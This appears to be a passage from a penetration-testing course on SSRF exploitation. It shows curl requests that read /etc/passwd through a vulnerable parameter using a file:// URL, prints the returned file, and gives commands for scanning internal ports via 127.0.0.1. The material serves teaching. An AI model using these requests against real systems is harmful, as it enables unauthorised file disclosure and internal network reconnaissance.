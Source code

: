 6. Retrieve a local file using the file schema, as follows

#### Retrieving a local file through the target application - File Schema

  SSRF Exploitation Example

```shell-session
Pangulin@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=file:///etc/passwd" 

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 926
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 11:27:17 GMT

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

1. Generate a wordlist containing all possible ports.

#### Generate a Wordlist

  SSRF Exploitation Example

```shell-session
Pangulin@htb[/htb]$ for port in {1..65535};do echo $port >> ports.txt;done
```

2. Issue a cURL request to a random port to get the response size of a request for a non-existent service.

#### Curl - Interacting with the Target

  SSRF Exploitation Example

```shell-session
Pangulin@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://127.0.0.1:1"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 30
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 11:36:25 GMT

[Errno 111] Connection refused
```
